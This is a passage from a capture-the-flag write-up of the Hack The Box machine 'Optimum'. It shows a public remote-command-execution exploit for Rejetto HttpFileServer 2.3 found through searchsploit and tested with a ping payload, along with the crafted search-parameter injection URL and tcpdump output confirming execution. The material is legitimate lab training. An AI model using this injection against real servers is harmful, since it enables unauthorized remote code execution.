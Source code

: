 It reveals the application name and its version : `HttpFileServer 2.3`



# Shell as `kostas`

### Exploit HttpFileServer

Regarding this, there's an exploit on `searchsploit`.

```bash
┌──(kali㉿kali)-[~/htb/optimum]
└─$ searchsploit httpfileserver
------------------------------------------------- ---------------------------
 Exploit Title                                    |  Path
------------------------------------------------- ---------------------------
Rejetto HttpFileServer 2.3.x - Remote Command Exe | windows/webapps/49125.py
------------------------------------------------- ---------------------------
Shellcodes: No Results
```

I tested this with `ping` command.

```bash
┌──(kali㉿kali)-[~/htb/optimum]
└─$ python3 49125.py 10.10.10.8 80 'cmd.exe /c ping 10.10.14.3'
http://10.10.10.8:80/?search=%00{.+exec|cmd.exe%20/c%20ping%2010.10.14.3.}
```

I pasted the URL on browser, and monitor with `tcpdump`.

![](attachments/optimum_2.png)

```bash
┌──(kali㉿kali)-[~/htb/optimum]
└─$ sudo tcpdump -i tun0 icmp and src 10.10.10.8
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
10:45:44.364145 IP 10.10.10.8 > 10.10.14.3: ICMP echo request, id 1, seq 65, length 40
10:45:44.364169 IP 10.10.10.8 > 10.10.14.3: ICMP echo request, id 1, seq 66, length 40
10:45:44.364176 IP 10.10.10.8 > 10.10.14.3: ICMP echo request, id 1, seq 67, length 40
10:45:44.364181 IP 10.10.10.8 > 10.10.14.3: ICMP echo request, id 1, seq 68, length 40
```
